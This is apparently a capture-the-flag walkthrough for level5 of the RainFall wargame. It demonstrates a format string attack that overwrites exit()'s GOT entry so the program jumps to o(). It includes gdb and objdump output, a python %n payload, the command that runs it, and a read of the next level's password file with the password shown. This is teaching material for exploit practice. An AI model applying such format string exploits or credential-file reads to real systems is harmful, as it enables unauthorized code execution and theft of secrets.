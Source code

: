 # Walkthrough

**Main** : 
The goal is to to manipulate `printf()` function to calling `o()` using a format string attack  inside `n()` instead of exit
To do it we have to replace the address of `exit` in the `n()`  with the address of `o()`, for calling it instead of exit.
  
**Format `n`**:  
>  This format tell `printf` to write the number of characters printed
>     to a specified address,  number of characters that are successfully
>     written so far to the stream or buffer. <br/> `%[number]$n` : This
>     format  corresponds to the position of the address on the stack.

## Step 1

### Get address of o()

    (gdb) print &o 
    $1 = (<text variable, no debug info> *) 0x80484a4 <o>

### Get address of n()

    (gdb) print &n
    $5 = (<text variable, no debug info> *) 0x80484c2 <n>
    (gdb) 

### Get address of exit()
```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
## Step 2 
### Identify  the positiona of argument is our input

```
level5@RainFall:~$ python -c 'print "aaaa" + " %x" * 5' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520
```
*The buffer the located at the 4th postion on the stack*

## Step 3 

### Step 1 : Create payload

The address `08049838` it convert in little-endian format `'\x38\x98\x04\x08'`
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload
```

### Step 2 : Load payload
```
 cat /tmp/payload - | ./level5
```

### Step 3: Get password
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

